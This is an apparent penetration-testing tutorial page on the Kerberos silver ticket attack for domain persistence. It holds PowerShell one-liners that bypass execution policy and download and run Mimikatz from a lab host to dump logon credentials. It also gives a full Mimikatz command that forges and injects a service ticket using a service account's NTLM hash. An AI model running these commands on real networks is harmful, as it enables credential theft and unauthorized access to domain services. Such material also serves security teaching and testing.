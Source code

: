 # Silver Ticket

## Intro

Silver ticket attack is one of the ways to gain domain persistence. Once you have gained domain admin or you could dump hashes of a service account some how. If you have recalled how Kerberos works let’s see where this attack fits in the cycle.

On the last step of the process when the client sends a TGS to the service that is where we can send a forged TGS and get access directly to the service and get a service ticket using this method.

![](<../../../.gitbook/assets/image (191).png>)

#### Silver ticket abuses the part of Kerberos authentication where a client sends a Valid TGS to get a service ticket. So if an attacker knows the hash of the service account he can forge a fake service ticket with it. Kerberos will trust it since it can be decrypted by the service as its signed by the NTLM hash of the service.

{% hint style="info" %}
downside of this attack is at unlike golden ticket which gives us access to everything. A silver ticket will only allow us access to a particular service or all the services that are running with the same service account.

Another disadvantage of this attack is if the service account is a machine account or a user account. If the password of the account changes this attack will fail. Since we wont have the correct hash of the user/machine account usually it changes within 30 days for machines. We would generally target these services when it comes to performing a silver ticket attack. CIFS (file system), HOST ( can schedule tasks ), RPCSS Host (runs wmi), WSman/http (ps remoting) all of these use the machine account as there service account.
{% endhint %}

## Dumping Password Hash

If an attacker can gain admin rights to the computer (to gain debug access) or be able to run code as local System, the attacker can dump the AD computer account password hash from the system using Mimikatz (the NTLM password hash is used to encrypt RC4 Kerberos tickets)

#### run this with admin privileges to load mimikatz into memory and dump user hashes:

```
powershell -ep bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1/mimikatz.ps1'); invoke-mimikatz -command 'sekurlsa::logonpasswords'"
```

![](<../../../.gitbook/assets/image (189).png>)

**Target** – This is the host, which can be copied from the SPN value.

```
powershell -ep bypass -c "iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/getspn.ps1')"
```

![](<../../../.gitbook/assets/image (186).png>)

## Forging Silver Ticket

#### the syntax for mimikatz command is:

```
 Invoke-Mimikatz -Command 'kerberos::golden /domain:megabank.local /sid:S-1-5-21-4081310294-3909750490-1069944866-1156 /target:sql.megabank.local:60111 /service:sql /rc4:77a5ee35032ad22d515577e7bd8e56c7 /user:paul /ptt'
```

**/domain :** domain name

**/sid:** domain SID value

**/target:** target service SPN

**/service:** service name

**/user:** username to create ticket for

**/rc4:** NTLM hash, will use

**/id , /groups :** these are to specify user id and group but this is optional

/endin : specify ticket lifetime in minutes (default 10 years)

**/ptt :** stands for pass the ticket it will load the ticket in memory. If we want to extract ticket on disk we can use **/ticket** option instead.

#### Now if we run the command above we get silver ticket that is created and stored in our current session

#### Now if we try to access the file system on sql.megabank.local machine. We can do it because we already have the tickets to authenticate us.

## Host Exploitation with Silver Ticket

By issuing a klist command you can see that we now have the ticket for sql service.

![](<../../../.gitbook/assets/image (190).png>)

more attack scenarios with silver tickets

{% embed url="https://adsecurity.org/?p=2011" %}
